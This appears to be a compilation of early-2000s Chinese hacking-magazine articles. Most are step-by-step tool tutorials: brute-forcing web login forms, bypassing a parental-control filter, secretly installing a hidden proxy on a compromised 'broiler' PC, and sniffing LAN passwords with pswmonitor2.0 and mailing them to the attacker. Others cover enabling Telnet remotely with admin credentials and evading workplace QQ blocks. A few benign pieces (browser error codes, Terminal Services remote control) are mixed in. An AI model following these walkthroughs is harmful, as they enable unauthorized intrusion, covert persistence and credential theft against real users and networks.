说起“溯雪”可谓无人不晓，小榕开发的这款暴力破解网页表单密码的工具实在是太有名了。还记得这款工具刚出现在网络上时，周围的几个爱好破解的朋友都在用它搜索着破解一些免费信箱的密码，但真正能够掌握并使用“溯雪”的人实在不多。首先“溯雪”的原版是英文的，其次“溯雪”使用起来也很复杂，对于新手们可真有点摸不着门道。为了能让新手朋友们掌握这种破解技术，这里为大家推荐一款和“溯雪”相同原理的暴力破解网页表单密码的工具“Form killer”。

“Form killer”可用来破解各类网页登录口令，只要它是用表单来提交的，就可以对其中的密码项用随软件附带的强大字典进行穷举破解。当然在使用方面，“Form killer”比起“溯雪”简便了很多，相信看了下面的应用介绍，大家都能掌握。

“GetForm”下面是相对应的表单，界面右边上半部的“Response Form”显示的是该网页的源码，下半部是关键字输入栏和字典选择栏，“Form killer”中一共附带了 9 本不同的字典。


图2

## 一、工具简介

“Form killer”和“溯雪”一样是需要安装之后才能使用，“Form killer”目前可以在所有 Windows 系统上使用。安装完后，点击运行它，可以看到“Form killer”的初始界面，如图1所示：


图1

## 二、实例操作

下面我将为大家演示一次破解一个网站的登录密码。当然，前提是我们已经知道一个有效的用户名，否则难度将会很大。

在图2中我们看到该网站需要输入“用户名”和“密码”才可以登录，相对这个登录页面，在“Form killer”界面中间的“GetForm”下将出现相对应的表单，其中“UserID”“UserPWD”就是“用户名”和“密码”。


图3

是不是有点像一款网页浏览工具。在它界面的上方是地址输入栏，我们将所要破解的网页地址输入进去，然后按“Go”，连接成功后我们就将看到“Form killer”的工作界面，如图2所示：界面左边显示的是我们连接上的网页，界面中间的“GetForm”下面是相对应的表单。

这里我们已经知道有个用户名是“Guest”，接着我们在“UserID”中输入“Guest”，在“UserPWD”中可以任意输入一个数字，然后按“提交当前表单”。由于密码错误，我们将看到网页上显示出“密码错误!!”的提示语。下一步要在“Form killer”界面右边上半部的“Response Form”下显示的该网页源码中找到这句“密码错误!!”的提示语，找到后用鼠标拖选，这时“Form killer”会询问“您确定选择（密码错误!!）作为关键字吗？”单击确定后，“Form killer”会将这句作为关键字了，如图3所示：

最后我们只要在“字典”里选一本字典，单击“开始暴力破解”，“Form killer”便会开始对该用户的密码进行破解了。破解的时间长短就要看你选择的字典是否合适和你的运气了。如果运气好的话，密码很快就会被破解出来，“Form killer”会弹出警告框提示破解出的密码，如图4所示：


虽然“Form killer”使用方便，也能破解出一些用表单来提交的网页登录口令，但无论从哪方面讲都没有“溯雪”来得专业，所以这只是一些想学习破解网页表单密码的朋友入门，好比想学 Windows 操作系统都要从 Windows 98 学起一样。其实做任何事情都不可以指望一步登天，万事都要从最基本处做起，学习黑客技术也是一样，只要先理解其技术的原理，再去应用它就不会觉得难了。

# 拒绝侵害 维护“花朵”

爱菠菜

众所周知，护花使者是一个反黄软件，软件名字的含义是：像爱护花朵一样保护青少年，使其免受电子黄毒的侵害。护花使者可以实现：1．实时拦截；2．文件保护（防止删除）；3．程序过滤（可以限制任意一个程序的运行）；4．“文字消毒”功能：可以对屏幕上出现的所有文本进行实时监控，无论在网上浏览或脱机工作；只要在屏幕上出现任何色情文字，均可自动对各种汉字编码进行识别过滤，并用黄色的 X 符号覆盖。5．“图像审查”功能：每隔 5 分钟，对屏幕画面进行抓图记录，以供事后监察。如果没有监护人密码，则无法改变、删除记录下的图像，无法终止或从硬盘强行删除该软件。护花使者不仅对黄色网站有屏蔽作用，而且对下载到本机的文件、光盘及软盘上的文件、VCD 等都能起到反黄作用，如图所示。


软件本身真的很不错，只是它对自身的保护不够好。比方说，可以轻松地绕过它的密码保护……

假设你现在就被护花使者监视着，不能删除或重命名文件，无法使用你想使用的软件。在没有护花使者的密码的情况下，如何突破它的限制呢？用以下的方法就可以：打开“开始”菜单，选“关闭系统”，在“关闭系统”中选择“重新启动系统并切换 MS-DOS 方式”。来到 MS-DOS 方式后，进入 C:\windows 目录，然后输入：deltree /y iflower.exe 或 del iflower.exe，重新启动计算机，进入 WINDOWS 时你会发现护花使者不再启动。

到这儿已完成一半多了，要完全掌控护花使者，请点击“开始”→“运行”，输入 Regedit.exe，打开注册表编辑器。展开注册表到 HKEY_LOCAL_MACHINE\Software 下，找到一个名为“netguard”的主键，删除它。然后再到 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 和 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run 键下，找到“netguard”，删除它。重新运行“护花使者”，你会发现原先的密码已空，你就可以自己来设定密码了！

至此，大功告成！大名鼎鼎的护花使者，就这么简单地被破解掉了！是不是很轻易？所以使用护花使者的朋友要小心了，当心“花朵”（儿童）可能会突破防线，要时时留心哦！

# WWW常见提示错误11例

李松林

让大家了解一下 WWW 的常见错误，并做好相应的补救措施。

- **BAD FILE REQUEST**：填写了不正确的资料；
- **CANNOT ADD FORM SUBMISSION RESULT TO BOOKMARK LIST**：一些并不是长期存放的档案（permanent file），例如：一些网页搜索器搜索出的网址是不能被储存到 bookmark 上的，否则就会出现上边的错误；
- **FAILED DNS LOOKUP**：你键入的 URL 地址不能被翻译成 IP 地址，错误的原因是网站的负荷过重，多发生在商业网站上；
- **HELPER APPLICATION NOT FOUND**：你若想看一些需要“helper application”的档案，浏览器可能会出现这样的提示信息；
- **FILE CONTAINS NO DATA**：有趣，意思是说你已经找到了所有的档案，但该档案并没有任何资料在其中，这是因为你键入地址的最后部分有错误造成的；
- **NNTP SERVER ERROR**：找不到新闻组（newsgroup）的服务器，原因可能是该服务器已经关闭或是你的地址错误；
- **NOT FOUND**：网页不存在或 URL 错误；
- **SITE UNAVAILABLE**：原因太多了，可能是用户太多或是维修关闭或……；
- **TCP ERROR ENCOUNTERED WHILE SENDING REQUEST TO SERVER**：传送的是坏的资料，即不合法或不完整；
- **TOO MANY USER**：网站已经饱和，喝过一会再尝试；
- **UNABLE TO CREATE HOST**：URL 错误或是根本不存在。

# 文件夹的“歪”与“魔”

彭智宏

你的电脑里肯定存储着不少重要的文件，是不想让别人看见的。时下诞生和存在着许许多多应用程序以及单个文件加密的软件，可以满足各位部分的需求，但是这些东西大多操作起来并不那么体贴和方便，往往要求删除原始文件，不能直接加载于文件中。而且，倘若你的私密文件够多的话，一次次重复是不是一件既烦人又浪费时间精力的苦差事呢？我想没有人只拥有屈指可数的一两个私密文件吧！

文件夹加密在人民群众的迫切期盼中应运而生，一个加密的文件夹就可以搞定所有的文件，一劳而永逸，人心所向，众望所归。而其中，不借助外力的加密或隐藏的方式以其方便、极尽人文关怀而深受广大群众喜爱。有了它，别无所求。

诸位不要着急，现在就由我一道来。

## 一、编辑“Folder.htt”

你问我这个东西在哪里？那我就一步步详细叙述，现在不会嫌我啰嗦了吧！

找到“查看”里的“文件夹选项”（这里指 Win98，而 WinMe、Win2000 是在“工具”里面），然后又是“查看”，勾选“显示所有文件”。好了，你可以到硬盘里看看 Folder.htt 是不是出来了。

> 注意：如果出现不少 Desktop.ini 和 folder.htt，表恐慌；其中系统加密文件夹一般在 Windows\Web 目录。

现在你可能又要发问了，在你想隐藏的文件夹里没有，那有什么用呢？是是是，可我还没说完呢！点击鼠标右键，选“自定义文件夹”→“创建或编辑 Html 文档”，就可以到达 Folder.htt 的编辑窗口，在 `<script language="JavaScript">` 后面加以下语句：

```javascript
var pass=prompt("请输入密码","");
if (pass !="123456") /* 注：这里的数字换成你的密码 */
{
    window.location="c:\\";
}
```

完毕。所谓“道高一尺，魔高一丈”，有锁就有钥匙，这种方法只能欺骗小学生。

### 破解方法：

- 1. 在地址栏输入该文件夹路径加上“\folder.htt”，回车，在“打开方式”中选取“NOTEPAD”即进入 Folder.htt 的编辑状态；然后你可以删掉那些加密语句，或者取得密码。
- 2. 最经济最简单的方法：用“资源管理器”查看，一览无余。

## 二、文件夹隐藏篇——“鸟”匿迹

把文件夹属性设为“隐藏”，再屏蔽掉“文件夹选项”以免“显示所有文件”导致“显山露水”坏了大事。

这就涉及到注册表了。时下教诸位改动注册表的文章多如牛毛，在循循善诱之下，大家想必已是个中高手了，但人文关怀终归应该有的，照顾一下新手嘛！所以请允许我具体问题详细分析。

“开始”→“运行”，输入“regedit”，找到 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer，在右窗新建一个 DWORD 键值，命名为“NoFolderOptions”，值设为 1。如图 2 所示。

“查看”或“工具”下的“文件夹选项”就此消失不见，也就不能“显示所有文件”了。（该方法会连带隐藏 IE 浏览器中“工具”下的“Internet 选项”。而要进入你所隐藏的文件夹，可以直接在地址栏输入文件夹名称进入，你自己隐藏的文件夹总该记得叫什么吧！）

无懈可击吗？懂行的高手可以通过修改注册表让“文件夹选项”归位。为了防止注册表被修改，你再添加键值禁止修改；他再破解，这些内容在注册表攻防战术讲解中有论述，这里就不扯远了。其实，有一个更为简便的方式解除封锁：

在桌面上点击鼠标右键，选“属性”→“Web”→“文件夹选项”，弹出对话框“是否保存并关闭‘显示属性’而查看‘文件夹选项’？”，点“是”，“文件夹选项”就出来了，下面该如何就不用我多说了，如图 3 所示。

此方法在 WinXP 中不能使用。可能大家对这篇文章并不满意，还是没有满足群众对隐藏文件夹的需求嘛！有“矛”就有“盾”，这本来就是件矛盾的事，哪有绝对的安全，只可谓“知己知彼，百战不殆”，多多掌握技术才是上上之选。

# 把肉鸡做成个人全功能服务器

NetJockey

学了那么久的黑客技术，在自己的辛勤劳动下终于得到了一台属于自己的肉鸡，那接下来该如何好好利用这台辛苦得来的肉鸡呢？如果你还没想好，就跟我一起来，把它打造成个人的全功能代理服务器吧！

### 一、CCProxy 简介

为了能很好地把我们的肉鸡打造成个人的全功能代理服务器，这里向大家推荐一款功能强大的代理服务器软件 CCProxy，如图 1 所示。

图 1 中提示“这两项不要勾选”。

安装方式（如图 1 所示），为了不让机主发现，我们还要取消勾选。

安装完后，CCProxy 会自动运行，这时我们就可以看到它的主界面了，如图 2 所示。

接着我们点击“设置”按钮，在弹出的对话框中，我们可以看到 CCProxy 所能代理的所有服务及协议，大家可以根据自己的需要勾选，也可以更改每项协议所开的端口。这里有两项我们一定要勾选，分别是“自动启动”、“自动隐藏”，这样 CCProxy 就可以在对方每次启动系统时自动加载运行，并隐藏界面，如图 3 所示。

下载地址：  
http://www.youngzsoft.com

CCProxy 是一款国内开发的多功能代理服务器软件，设置简单，功能庞大，支持 Win98/WinMe/WinNT/Win2000/WinXP。不像 SocksUneed 这种代理跳板工具，只能支持 SOCKS 协议，CCProxy 完全支持 HTTP、FTP、Gopher、SOCKS4/5、Telnet、Secure（HTTPS）、News（NNTP）、RTSP、MMS 等代理协议。以后无论你是上网浏览、上 QQ，还是入侵，都可以用这台安装了 CCProxy 的肉鸡来做代理，这样就可以真正地在网络上隐身了！另外，CCProxy 还支持三种帐号认证方式：IP 地址、MAC 地址、用户名密码。这样别人就算知道了这台机器是代理服务器也没法使用它了。

> 注意：如果你的肉鸡是 Windows 2000 的服务器版，并且装有 Symantec 的 pcAnywhere 或者装有 VNC，这是必须的，因为 CCProxy 无法在命令行下操作。

## 二、安装过程

介绍完了 CCProxy，就让我们正式开始。首先连接到你的肉鸡，先下载 CCProxy 的安装程序。CCProxy 的安装很简单，基本一路 Next 就可以了，不过这里要提醒大家两个地方需注意：

> 注意：安装方式一定要选择“自定义安装”的安装类型，这样不容易被机主发现。其次，在安装过程中 CCProxy 会提示是否在桌面和快速启动栏添加快捷方式。

图 3 中提示“这两项务必勾选”。

下面我们再点击“高级”按钮，进入 CCProxy 的高级选项。在弹出的高级选项对话框中，我们先选取“日志”，把“每天生成新日志”前面的勾去掉，如图 4 所示。

接着选择“其它”项，勾选“密码保护”和“隐藏所有”，这样一来，别人就无法设置 CCProxy 了；而且，当你勾选了“隐藏所有”后，CCProxy 在任务栏中显示的图标也会被隐藏，如图 5 所示。

除非你用“任务管理器”查看进程，才能发现 CCProxy 正在运行（这也正是我向大家推荐 CCProxy 的一个重要原因），如图 6 所示。

到这里我们已经可以用这台肉鸡做代理了，不过为了独享这份成果，还要再给 CCProxy 设置帐号密码。由于设了“隐藏所有”，要显示出 CCProxy 的主界面，我们还要再运行一次 CCProxy，这样就可以使 CCProxy 显示出主界面了。

在 CCProxy 的主界面上点击“帐号”按钮，在弹出的“帐号管理”对话框中，我们首先将“允许范围”选成“允许部分”，接着在下面的“验证类型”中可以看到三种选择：“IP 地址”是指用户的身份通过 IP 地址来判断；“MAC 地址”是指用户的身份通过 MAC 地址来判断；“用户／密码”是指用户的身份通过用户名和密码来判断。这里我选“用户／密码”，因为我是用拨号方式上网的，如果你是固定 IP 或在局域网中也可以选其它两项，如图 7 所示。

下一步是新建一个帐户，我们点击“新建”按钮，分别在弹出对话框中的“用户名／组名”和“密码”中输入一个帐号和密码。点击“确认”返回主界面，再点击“隐藏”按钮使 CCProxy 再恢复到刚才的隐藏状态，如图 8 所示。

当然，你别忘了在“密码”栏中输入一个复杂的密码。设置完毕后点击“确定”按钮返回主界面，最后我们需要重新运行一次 CCProxy，使所有的设置都生效。先点击“退出”，然后再运行一次 CCProxy，你就会发现屏幕根本没有显示任何的画面和任务图标，但 CCProxy 已经在后台运行了！

终于完成了，现在可以独自享用这个代理服务器了。如果要用代理上网，只要在 IE 属性里填上代理服务器的 IP 地址和所设置的代理端口就行了（关于如何在 IE 或其它网络软件中使用及设置代理的文章很多，这里就不重复了）。连接到代理服务器后会弹出一个提示输入用户名和密码的对话框，我们一定要把设置好的帐号和密码准确填入，这样 CCProxy 才能为我们正常地服务。如图 9 所示。

### 三、CCProxy 应用中的补充

在内网中安装 CCProxy 可能会碰到以下几种问题以及解决方法如下。

- 1. DNS 启动失败
  - 对方机器上安装了其它代理服务器软件。这时需要停用其它代理服务器。
  - 对方机器缺省安装了 Windows 自带的 DNS 服务器。这种情况一般多发生在 Win2000 上。因为 Win2000 已经自动安装了 DNS 服务器，无法使用 CCProxy 的 DNS 服务，可以取消 CCProxy 的 DNS 代理。

- 2. SOCKS 或者 HTTP 等代理启动失败

  出现这种问题，主要是因为对方机器已经安装了其它代理服务器软件而造成的冲突。解决办法是停用这些软件。

- 3. 新闻代理服务启动失败
  - 对方机器上安装了其它代理服务器软件。这时需要停用其它代理服务器。
  - 对方机器上安装了微软的 NNTP Service，这时需要停用 NNTP 服务。
  - 从控制面板→添加/删除程序→添加/删除 Windows 组件→Internet 信息服务（IIS）→NNTP Service，取消 NNTP 服务。

- 4. 邮件代理启动失败

  这是因为对方机器上安装了其它跟邮件服务器有关的程序而造成的冲突，有很多原因造成这种现象。

一个很简单的测试对方是否安装了其它跟邮件有关软件的方法：在命令行方式下，输入命令 `telnet 127.0.0.1 110` 或者 `telnet 127.0.0.1 25`，你就可以看到相应的提示信息，从而判断出跟哪个软件有关。

# 喜闻网络杀手——pswmonitor2.0

stduy

常见的黑客软件里，我个人感觉“键盘记录器”这一类的后门程序给人造成的威胁最大。当然，一般情况下需要在对方的机子上种下客户端才可以实施远程控制。但是，现在我要说的 pswmonitor2.0 只要在一台机子上运行，就可以监听整个网络系统内所能得到的密码，而且具备了邮件发送功能，能对局域网安全构成极大的威胁。

如图 1 所示，这是该软件的操作界面。“监听”和“适配器”两项基本上可以不用设置，应用其默认值就可以了；“邮件”选项就需要仔细填写了，相信按照软件的提示大家应该很容易正确填写。接收密码的信箱最好是性能好一点的，比如 sohu、163 等，否则有可能收不到密码。当然，你也可以先用软件自带的邮件发送测试功能，这也是该软件开发者想得比较周全的地方。

至于“密码保护”选项则根据个人需要。如果你只是路过某个网吧顺便安装了 pswmonitor2.0，以后基本上不会再去那家网吧，那你完全可以不必管它；但如果另有目的则设个密码也无妨，如图 2 所示。

“其它”选项是设置弹出该软件的热键设置，当然是越复杂越好，别人偶然把 pswmonitor2.0 打开的几率也就很小了。对了，一切设置完成后别忘了点击下面的“应用”，要不一切都是白费力气。

一切都搞定了，这样你就可以坐等着收密码了！

怎么样，感觉到 pswmonitor2.0 的威力了吧？现在你是不是也在担心你们学校、网吧或是公司的局域网里也有这么一个密码盗窃者呢？而且我在使用该软件实验的过程中还没发现有什么软件可以查杀它，甚至是在进入网络游戏“奇迹”（MU）过程中的黑软查看器也没办法将其识别。所以，对于各位网迷来说，唯一能做的就是上网时先搜索一下整个系统，看看有没有 pswmonitor2.0 这个软件；还有就是在输入密码的时候分部分输入，或将密码写在记事本上然后复制到密码框内。至于其它的应对方法大家各出高招了！！

鉴于该软件的破坏性过大，提醒各位不要用其做违法的事，本文旨在提醒大家防范之用！

## 最方便的远程开启 TELNET 工具

OpenTelnet

我们在远程启动 Telnet 时，一般都会使用小榕的“流光”工具（先上传 NTLM.exe，再启动 NTLM.exe）来修改微软 Telnet 的 NTLM 认证方式，或者上传一个 NCX，开 99 端口。但是，这些程序的启动还需要使用 AT 命令来查询服务器的时间，然后启动计划任务来执行程序，在使用过程中感觉比较麻烦。其实，微软自己有了 Telnet，根本不用这么麻烦！

OpenTelnet.exe 就是一款使用非常方便的远程启动服务器 Telnet 的工具，并且可以选择是否使用 NTLM 认证方式。使用这个程序，你必须获得管理员密码和帐号，同时服务器开放 IPC$ 共享。只能对 WIN2K/XP 使用（在 NT 上没有测试过）。

在 OpenTelnet 的压缩包内有 OpenTelnet.exe 和 ResumeTelnet.exe 两个工具，OpenTelnet.exe 是用于远程开启 Telnet 的，而 ResumeTelnet.exe 是用来把修改了的配置全部返回到默认配置上去，并关闭 Telnet 服务等。首先我们看一下 OpenTelnet.exe 的用法。命令格式：

```text
OpenTelnet.exe \\IP <帐号> <密码> <NTLM认证方式> <Telnet端口>
```

- `<NTLM认证方式>`
- `0`：不使用 NTLM 身份验证；
- `1`：先尝试 NTLM 身份验证。如果失败，再使用用户名和密码；
- `2`：只使用 NTLM 身份验证。

如图 1 所示。

这样，我们就能够得到一个开 23 端口的 Telnet 服务器了，而且不使用 NTLM 身份验证。

```text
Telnet 192.168.1.2
```

这样就可以登录上去了。

接着我们来看看在 OpenTelnet 的压缩包中的另一个工具 ResumeTelnet.exe 的用法。命令格式：

```text
ResumeTelnet.exe \\IP <帐号> <密码>
```

如图 2 所示：

命令完成后，对方主机 Telnet 的设置将全部还原，并关闭 Telnet 服务。

怎么样？有了 OpenTelnet，远程开启 Telnet 是不是简单了很多？相信你就算是一只菜鸟，也能用 OpenTelnet 轻轻松松地远程开启对方的 Telnet 了。

# 终端服务中的远程控制功能

也许有的人会问 Win2000 中的“终端服务”功能不就是远程控制吗？对！不过这里我要说的是在“终端服务”中监视、控制另一个用户的会话。

由于 Win2000 中的“终端服务”使用的是多用户机制，所以每个登录到“终端服务”中的用户都有自己的系统界面，而无法直接访问另一个用户的会话。对于想要和“终端服务”中的朋友共同研究问题时，我们就需要终端服务中的远程控制功能了！下面让我们看一下它是如何实现的。

首先，我们用管理员身份登录到远程主机的“终端服务”中，打开“控制面板”→“管理工具”→“服务管理器”，在窗口左边点击该服务器的名字，右边窗口就会列出同时连接的用户。在其他用户的头像上点击右键（这里注意！不能控制本地登录的用户），弹出的菜单中有：

- 连接
- 断开
- 发送消息
- 远程控制
- 复位
- 状态
- 注销

如图 1 所示。

每项的基本含义如下：

## 1. 连接

允许用户连接到另一个会话。请注意，连接到目前正由另一个用户使用的会话，可能导致该用户的数据丢失。连接到另一个会话时，你将从以前的会话中断开连接。如果你在服务器上创建多个会话，则可以使用此选项在这些会话之间切换。不能从系统控制台连接到另一会话。

所需的权限级别：用户访问或完全控制

## 2. 断开

从会话中断开用户连接。该会话会一直在断开连接状态下连接到终端服务器，而且目前运行的应用程序将继续运行。当你尝试重新连接到该服务器时，即使从不同的计算机重新连接，也将使用断开连接的同一会话重新连接。在断开连接时仍打开着的应用程序，将在重新连接到该会话时仍会运行，而不会有数据丢失。如果你经常变换地点（例如，从办公室到家中），则此特性非常有用。

所需的权限级别：完全控制

## 3. 发送消息

允许用户向另一个用户的会话发送消息。例如，在从会话中断开连接或注销用户之前，管理员可能需要向用户发送消息。

所需的权限级别：用户访问或完全控制

## 4. 复位

允许你立即删除会话。请注意，没有警告的重设用户会话可能导致该会话中的数据丢失。应该只在会话出现故障或停止响应时重置会话。重置使所有会话将使用该连接重新设置所有会话。

所需的权限级别：完全控制

## 5. 状态

允许你监视与会话相关的计数器，如传入和传出的字节和帧。控制台和侦听者会话的状态信息无法显示。

所需的权限级别：用户访问或完全控制

## 6. 注销

允许你从服务器上的会话中注销用户。请注意，没有警告的注销用户可能会导致用户会话中的数据丢失。当你注销用户时，所有进程都将结束，而且该会话将从服务器上删除。

所需的权限级别：完全控制

## 7. 远程控制

使用户可以观察或远程控制另一个用户会话，允许你监视会话中的活动并在必要时与之交互作用。

这就是本文要说的在“终端服务”中监视、控制另一个用户的会话。点击以后，会出现一个退出远程控制的热键设置，如图 2 所示。

默认热键是 CTRL+星号（数字小键盘上的“*”）。当需要结束远程控制时，请按 CTRL+星号（或你定义的任何热键），点击“确定”。之后它会告诉你“正在建立远程控制会话”，这时候另一个用户的桌面就会出现一个询问是否接受请求的对话框，如图 3 所示。

对方点“确定”后，你就和他在同一个终端窗口中使用同一张桌面了，这时候两个人都可以进行操作。如果你只是想监视对方，要先执行“控制面板”→“管理工具”→“计算机管理”，在出现的窗口左栏点“本地用户和组”→“用户”，在右栏里点你想远程观看的用户，点“属性”，在出现的窗口上点“远程控制”，在最下面有“查看用户会话”和“与会话交互”两个单选项。如果你只想监视对方选前者，如果你要远程控制对方，那就要选后者，如图 4 所示。最后点“确定”选出那个窗口，然后再进行远程控制。如果对方不接受你的控制，Win2000 会告诉你“远程控制另一个会话时请求被拒绝”；或者是对方长时间没有回应，结果也是一样的，如图5所示。


> 注意事项

- 必须有完全控制权限才能远程控制另一个会话。
- 在开始监视之前，该服务器将警告用户此会话将在远程进行控制；除非该警告被禁用。你的会话在等待来自用户的响应时，就好像被冻结了几秒钟。
- 进入远程控制会话时，当前会话将与你监视的会话共享每个输入和输出。
- 你的会话必须能够支持用于你远程控制或操作的会话的视频分辨率。
- 控制台会话既不能远程控制另一个会话，也不能由另一个会话远程控制。

# 屏幕录像

前段时间在一个安全论坛，发现了一些有关安全／黑客类的动画录像教程，全是连续帧播放的，粗看觉得应该不是 Flash 做的，仔细打听，才发现原来是它——HQB_SDemo 录像工具。

HQB_SDemo 对于需要对屏幕操作录像的朋友来说，有很大的用途。它可以把你在一个时间段内所有的屏幕动作都录下来，给我们这些不会用 Flash 制作动画的朋友提供了很大的方便。这是一款英文软件，不过，这么好的东西，当然已经被热心的朋友给汉化了。

- 1、下载安装完毕，打开“S-Recorder 破解版”主程序，图1是它的主界面。操作界面很小，对近视眼来说，看起来有点难度。


- 2、主界面的右边是主功能菜单。点击“Record”菜单选项，将弹出“开始录制”对话框，该框内是有关录像的基本参数设置，如图2所示。其中“文件”下的输入框，就是你要生成文件的路径和文件名。动画信息下面的“制作者”“动画名称”“关于”都是动画录制人自己的版权信息。“口令保护”这一项需要观看人输入密码才可以观看。

- 3、设置完毕，回到主界面，点击“Options（选项）”菜单进入“Options”对话框，里面有关于电源品质、记录、格式、音频等几个标签，如图3所示。我们的汉化作者已经汉化得相当到位了，大家一看就知道具体该怎么样操作。

- 4、在主界面上还有一个“Menu”菜单，点击它即会弹出上述几项功能菜单的快捷菜单，还有汉化作者的相关信息。在主界面下方的“quality”品质调节框中，你可以调节你需要的画面颜色以及画面大小，不过，建议最好选默认值。


- 5、一切准备妥当后，我们选择输出文件的格式，先回到“Record”选项输入好保存路径和名字，点“开始”，我们的录像就正式开始了。想要结束录像的时候，再点一下“锁定”，就把你刚才的屏幕记录保存在你刚才设定的文件名里了。如果你想把你刚才的录像和别人分享，那点击“Export.EXE File”选项，弹出“输出‘EXE 文件’”对话框，选择好“源 .SMV 文件”，如图4所示，把刚才生成的 *.smv 文件转换成 EXE 文件格式，就可以发给别人观看了。


这个软件除了适合做电子教程，它还有一个非常好的用途，就是你在网吧或者机房上网，你有事情要暂时离开一下，离开前你可以让它开始记录，等你回来的时候再看保存的结果，这样就可以知道是否有人趁你不在的时候动过你的机器。还有，要是把这个软件传到你的肉鸡上，不是成了偷窥的工具了吗？

这个软件如果装入肉鸡上还是容易被察觉的，因为它运行的时候，机器会比较明显地变慢。

# 怎样闯关封锁上QQ

星羽

时至今日，QQ已经成为了广大网友们交流感情、联络朋友的必备工具。但是许多企业和单位出于种种因素考虑，禁止在单位里上QQ，甚至从技术上对QQ进行无情的封杀。不过看了以下内容，你就可以突破网关的封锁，无拘无束地上QQ了。

俗话说：“知己知彼，方能百战不殆。”咱们要让QQ突破网关的封锁，就必须对一些基本的通讯原理有所了解才行。

首先我们必须知道QQ采用的是 UDP 协议进行数据传输，虽然 UDP 的安全性不如 TCP 好，程序必须自己确定信息是否完全正确到达目的地，但可以加快网络处理速度。接着我们再来了解一下网关：网关是一个网络与另一网络相联的通道，网络信息由它负责转发或接收，也就是局域网内的用户要与 Internet 通讯都要通过网关。为了增强网络安全，网关可以对经过的数据包制定规则进行过滤，在许多局域网里网关和代理服务器是融为一体的。网关是如何对QQ进行技术封锁的呢？下面将详细介绍三种常见的封锁QQ的手法及突破这三种封锁的方法。

## 一、突破端口封锁

> **原理**

由于QQ用的是 UDP 协议，默认通讯端口是 4000；所以只要在网关上制定过滤规则，把源端口是 4000 的 UDP 数据包过滤掉，就可以实现对QQ的封杀了。

要对付这种封锁比较简单，只要改变一下QQ的通讯端口就行。如何才能修改QQ的通讯端口呢？我们可以借助一个叫作“QQ端口号修改器”的软件，对应的程序是 QQPort.exe，它可以把QQ的通讯端口进行重定向。其下载地址为：

```
http://www.chinesehack.org/down/show.asp?id=2626&down=1
```

### 具体操作如下：

- 1. 把 QQPort.exe 从压缩包中解出来。双击打开 QQPort.exe，它会询问你想要修改为哪个端口号？你可以随便选一个端口，然后按回车确认（如图1所示），QQPort.exe 就开始工作。要注意的是别把它关掉，它将一直陪着你的QQ一起工作。
- 2. 打开QQ，把QQ网络设置里的服务器地址修改为：127.0.0.1（如图2所示），这样你就可以突破网关的封锁上QQ了。


## 二、突破IP屏蔽

突破端口封锁上QQ的方法很简单吧！但不幸的是有些单位的网关不是这样封杀QQ的，我们知道QQ要向腾讯公司的服务器登录后才可以使用，而这些服务器的地址是一组相邻的 IP 地址段，所以有些网关往往通过屏蔽这些 IP 地址，也就是把所有连向这些 IP 地址的数据包给丢弃掉，这样可怜的QQ又被扼杀掉了。

腾讯服务器的 IP 被封，怎样才能突破呢？我们可以通过 Socket 代理服务器来突破封锁。Socket 代理是什么？简单地说，它是数据转发中转站。网关不允许我们连向腾讯服务器，那我们可以先把数据包发给一台 Internet 上的 Socks 代理服务器呀！再由 Socket 代理转发给腾讯服务器。同样，腾讯服务器发出的数据包也经过 Socks 代理转给我们，这样我们不就可以突破网关的封锁了吗！

如何构建一个 Socks 代理服务器呢？首先要有一个 Socks 代理程序，这里向大家推荐一个：Socks Online，它是个功能完备、操作简单的 Socks 代理软件，支持基于网络通讯协议 TCP、UDP、Socks、HTTP 等相互间 Socket 的转换功能，稳定性强，不容易掉线，支持 Windows 98\Me\NT\Win2000\WinXP 操作系统。其次，还得另外找一台 Internet 上的主机来安装 SocksOnline.exe。

```
SocksOnline.exe 的下载地址：http://www.waysonline.com
```

下面我们就来开始构建我们的 Socks 代理服务器。

- 1. 找一台局域网外的 Internet 上的主机，然后在其上运行 SocksOnline。第一次运行需要设置登录帐号（如图3所示），在帐号一栏填入你的 E-mail 地址即可。


由于要向网上注册，启动比较慢，需要耐心等待一会儿。

- 2、SocksOnline 启动完毕后就自动开放了 Socks 代理服务，默认代理端口为 1080（如图4所示），还有个 HTTP 代理是浏览网页用的，我们这里不会用到，就不管它。


图4 SocksOnline 主界面

注意右下角显示了 Socks 代理端口号。再打开“设置”→“系统设置”→“系统服务设置”，把“只供本机使用”项取消掉，这样就允许远程用户使用了（如图5所示）。注意把“只供本机使用”项取消掉。也可以重新设置 Socks 代理服务端口，不过一般不用改动它；如果网关封锁了 1080 端口，那你可以具体查看网关允许访问的端口，然后再改成别的端口。


图5 SocksOnline 的 Socks 代理设置界面

- 3、进入 SocksOnline 的“设置”→“系统设置”→“用户服务设置”，在“主机”里填入：sz6.tencent.com（腾讯的QQ服务器地址），“端口”里填入：8000（QQ服务端口），“本机服务端口”：8000，校验一下（如图6所示），成功！注意填入QQ服务器地址及端口。这样你连上此机的1080端口后，它会自动连向腾讯的QQ服务器了。到此在远程主机上的设置完毕了，咱们再来进行本地主机的设置。


图6 SocksOnline 的用户服务设置界面

- 4、在本地主机上打开QQ，进入“注册向导”的登录界面的“网络设置”，如图7所示。


图7 QQ 网络设置界面注意在“防火墙地址”里填入远程 Socks 代理的地址和端口。

选定“使用 Socks5 代理”，在“防火墙地址”里填入：远程主机的地址，在“端口号”里填入：1080，“校验用户名和密码”由于我们没有设置，所以让它空着不用填。按“测试”，如果QQ提示你代理服务正常，就说明能用了。呵呵……接下来如何登录QQ不用我说了吧！

这样我们的QQ又一次成功地突破了网关的封锁。看到这里，可能有朋友会说：“如果我没有可以用来做 Socks 代理服务器的远程主机那怎么办？而且自己构建 Socks 代理好像也较麻烦，有没有简单点的方法？”

有办法！那就是找网上免费的 Socket 代理服务器呀！不过天下没有永远免费的午餐，免费的 Socket 代理服务器往往用不了几天，所以你得不断地寻找！如何寻找？我推荐大家一个软件：QQ代理公布器。

下载地址：http://www.3721e.com/update/shouye/qq.htm

这个软件可以帮大家节省许多寻找 Socket 代理的时间，具体怎么用呢？请接着往下看：

- 1. 下载QQ代理公布器后，先要进行安装，安装完成后，打开 WINDOWS “开始”→“程序”→“QQ代理”中的QQ代理程序。
- 2. 打开QQ代理程序主界面后，单击“读取数据”按钮，等几秒钟，下面的显示栏里会显示许多 Socket 代理服务器的地址及连接情况（如图8所示），选一个连接速度较快的代理，然后在QQ里设置 Socks5 代理的各个选项，验证后就可以登录上QQ了。


